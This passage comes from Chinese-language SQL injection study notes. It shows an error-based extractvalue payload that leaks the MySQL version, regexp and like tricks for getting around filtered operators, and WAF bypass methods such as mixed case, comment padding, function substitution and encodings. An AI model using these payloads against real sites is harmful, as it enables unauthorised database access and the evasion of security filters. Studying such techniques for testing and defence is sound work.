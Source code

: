 ```mysql
mysql> select * from admin where id >0 order by id limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
ERROR:
No query specified
```



#### 7.10 regexp

可以等同于使用等值判别式。用正则是否匹配得出0或1的值

```mysql
selecct (select 语句) regexp '正则'
```

使用场景，被过滤了=、in、like等的等式判别。



#### 7.11 like 

另一个模糊匹配等式

```mysql
like '___'# 长度3匹配
like 's%' # % 代表任意字符，s开头任意串匹配
```



### 8.  SQL注入绕过

不错的总结[SQL注入之WAF绕过注入](https://yuanshisen.com/WEB%E6%BC%8F%E6%B4%9E-SQL%E6%B3%A8%E5%85%A5%E4%B9%8B%E5%A0%86%E5%8F%A0%E5%8F%8AWAF%E7%BB%95%E8%BF%87%E6%B3%A8%E5%85%A5/index.html)

基于不同层面进行绕过总结：

#### 8.1 应用层

##### 8.1.1 大小写、关键字替换

```markdown
id=1 UnIoN/**/SeLeCT 1,user()Hex() bin() 等价于ascii()
Sleep() 等价于benchmark()
Mid()substring() 等价于 substr()
@@user 等价于  User()
@@Version 等价于 version()
```



##### 8.1.2 各种编码

- 大小写
- URL编码
- HEX（十六进制）
- %0A（换行）等
